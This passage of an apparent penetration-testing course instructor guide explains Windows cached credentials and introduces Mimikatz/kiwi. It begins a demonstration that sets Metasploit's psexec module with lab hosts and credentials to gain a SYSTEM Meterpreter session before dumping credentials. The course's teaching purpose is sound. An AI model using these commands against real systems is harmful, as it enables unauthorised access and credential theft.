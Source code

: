 According to Windows, each unique user's logon information is cached locally so that, in the event that a domain controller is unavailable during subsequent logon attempts, they are able to log on. The cached logon information is stored from the previous logon session.

- Even as SYSTEM, viewing the contents of the registry key would not yield any decipherable hash, as the passwords are hashed *and* salted using a hashing algorithm called **MSCacheV2**. However, we will use tools that are able to decrypt the contents. 

#### Mikikatz / Kiwi

Introduce Mimikatz and Kiwi by covering the following:

- **Mimikatz** is a Windows-purposed credential dumping tool that is able to decrypt almost all stored credentials in Windows.
- It is outside of the scope of our class to go into details on how Mimikatz works.
- For our class though, we will use the Metasploit version of Mimikatz called **kiwi**. 
- Note, this tool is called `kiwi` in Metasploit because the creator of Mimikatz, Benjamin Delpy, goes by the handle GentleKiwi.

Explain to the class that we will now conduct a demonstration on how to use the Metasploit version of Mikikatz, kiwi. 

#### Mimikatz Demonstration

First, open a Meterpreter session as SYSTEM on WIN10 by performing the following steps (if a current Meterpreter SYSTEM session isn't already opened).

1. Load the `psexec` module. `use exploit/windows/smb/psexec`

2. Set the following parameters:

	- `set RHOSTS 172.22.117.20`
	
	- `set SMBUSER tstark`
	
	- `set SMBPass Password!`
	
	- `set SMBDomain megacorpone`
	
	- `set LHOST 172.22.117.100`
	
	- ![A screenshot depicts the results of the command.](Images/psexecoptions.PNG)
	